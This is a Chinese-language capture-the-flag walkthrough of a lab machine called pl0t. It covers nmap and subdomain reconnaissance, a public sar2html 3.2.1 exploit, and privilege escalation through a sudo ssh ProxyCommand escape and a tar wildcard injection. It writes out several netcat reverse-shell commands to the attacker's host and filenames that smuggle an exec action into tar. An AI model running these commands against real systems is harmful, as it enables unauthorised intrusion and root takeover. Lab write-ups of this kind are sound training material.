


## 复盘*

## 靶机地址

[Proton Drive](https://drive.proton.me/urls/RRFEQYQFK8#YHISmO3LAsZr)


## 信息收集

### nmap扫描

#### 准备阶段

```
mkdir nmapscan
```


创建文件夹用来存放nmap扫描结果


#### 主机探测

```
nmap -sn 192.168.1.0/24
```


确定靶机ip：

192.168.1.6


#### 端口扫描

```
nmap -sT --min-rate 10000 -p- 192.168.1.6 -oA ./nmapscan/ports
```


开放了：

- 22 ssh
- 80 http


#### 提取端口信息

```
ports
```


#### 详细结果扫描

```
nmap -sT -sC -sV -O -p 22,80 192.168.1.6 -oA ./nmapscan/detail
```


分析：

- 22 ssh OpenSSH 8.4p1
- 80 http Apache httpd 2.4.56
- Deian


#### UDP扫描

```
nmap -sU --top-ports 20 192.168.1.6 -oA nmapscan/udp
```


### 80 端口

#### 访问192.168.1.6


apache主页

查看源码无信息


#### dirsearch扫描目录

```
dirsearch -u http://192.168.1.6
```


无内容


#### gobuster扫描目录

```
gobuster dir -u http://192.168.1.6 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```


无内容


#### bp抓包查看


存在dns解析


#### 添加本地host解析

```
windows：C:\Windows\System32\drivers\etc
```


```
kali：/etc/hosts
```


#### 访问pl0t.nyx


#### 利用gobuster进行子域名爆破

```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u pl0t.nyx
--append-domain
```


得到：

- sar.pl0t.nyx


#### 继续添加本地host解析


#### 访问http://sar.pl0t.nyx


sar2html 3.2.1


#### 搜索相关漏洞

```
searchsploit sar2html
```


#### 保存脚本


#### 执行

```
python 49344.py
http://sar.pl0t.nyx/
ls
```


#### 执行反弹shell命令

##### 本地开启监听

```
nc -lvp 283
```


##### 执行弹shell命令

```
nc -e /bin/bash 192.168.1.3 283
```


成功


## 提权

### python转换终端

```
python -c 'import pty;pty.spawn("/bin/bash")'
```


失败


### script转换终端

```
/usr/bin/script -qc /bin/bash /dev/null
```


### 查看用户信息

```
cat /etc/passwd
```


存在普通用户tony


### 进入tony的家目录

```
cd home
ls
cd tony
```




失败


### 执行sudo -l

```
sudo -l
```


无密码以tony身份执行ssh


### ssh提权

```
sudo -u tony ssh -o ProxyCommand=';sh 0<&2 1>&2' x
whoami
```


### script转换终端

```
/usr/bin/script -qc /bin/bash /dev/null
```


### 得到第一个flag


### suid位查找

```
find / -perm -4000 2>/dev/null
```


无关键信息


### 上传linpeas.sh

```
wget 192.168.1.3/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```


无关键内容


### 查看进程信息

上传pspy64

```
wget 192.168.1.3/pspy64
chmod +x pspy64
./pspy64
```




可以看到root用户在/var/www/html路径下执行tar命令

且压缩的文件用的是通配符

则我们可以在/var/www/html路径下放置恶意文件

利用通配符处理来得到root权限


### 进入/var/www/html

```
cd /var/www/html
touch 1
ls
```


可以看到我们对/var/www/html文件夹可读写


### 构造恶意文件

```
touch -- '--checkpoint=1'
echo 'nc -e /bin/bash 192.168.1.3 289'>nc.sh
touch -- '--checkpoint-action=exec=sh nc.sh'
```


### 本地开启监听


### 得到任务执行后


成功提权


### 得到第二个flag

```
cd /root
ls
cat root.txt
```

